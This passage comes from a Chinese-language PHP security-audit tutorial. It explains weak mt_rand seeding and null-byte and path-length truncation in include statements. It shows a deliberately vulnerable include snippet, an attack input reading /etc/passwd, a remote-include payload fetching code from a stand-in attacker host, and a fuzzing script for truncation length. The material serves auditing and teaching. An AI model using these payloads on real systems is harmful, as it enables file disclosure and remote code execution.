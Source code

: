 从上面的测试及分析来看，php<5.26不管有没有定义播种，mt_rand处理的数据都是不安全的。在web应用里很多都使用mt_rand来处理随机的session，比如密码找回功能等等，这样的后果就是被攻击者恶意利用直接修改密码。

很多著名的程序都产生了类似的漏洞如wordpress、phpbb、punbb等等。（在后面我们将实际分析下国内著名的bbs程序Discuz!的mt_srand导致的漏洞）

| *漏洞审计策略* |
| PHP版本要求：php4 php5<5.2.6<br>系统要求：无<br>审计策略：查找mt_srand/mt_rand |


=== 特殊字符 ===

其实“特殊字符”也没有特定的标准定义，主要是在一些code hacking发挥着特殊重作用的一类字符。下面就举几个例子：
   
==== 截断 ====

其中最有名的数大家都熟悉的null字符截断。

===== include截断 =====

```
<?php 
include $_GET['action'].".php"; 
?>
```

提交“action=/etc/passwd%00”中的“%00”将截断后面的“.php”，但是除了“%00”还有没有其他的字符可以实现截断使用呢？肯定有人想到了远程包含的url里问号“?”的作用，通过提交“action=`http://www.hacksite.com/evil-code.txt`?”这里“?”实现了“伪截断”：），好象这个看上去不是那么舒服那么我们简单写个代码fuzz一下：

```
<?php
////////////////////
////var5.php代码:
////include $_GET['action'].".php"; 
////print strlen(realpath("./"))+strlen($_GET['action']);  
///////////////////
ini_set('max_execution_time', 0);
$str='';
for($i=0;$i<50000;$i++)
{
	$str=$str."/";

	$resp=file_get_contents('http://127.0.0.1/var/var5.php?action=1.txt'.$str);
	//1.txt里的代码为print 'hi';
	if (strpos($resp, 'hi') !== false){
		print $i;
		exit;
	}
}
?>
```

经过测试字符“.”、“ /”或者2个字符的组合，在一定的长度时将被截断，win系统和`*`nix的系统长度不一样，当win下strlen(realpath("./"))+strlen($`_`GET`['action']`)的长度大于256时被截断，对于`*`nix的长度是4 `*` 1024 = 4096。对于php.ini里设置远程文件关闭的时候就可以利用上面的技巧包含本地文件了。（此漏洞由cloie#ph4nt0m.org最先发现]）

===== 数据截断 =====
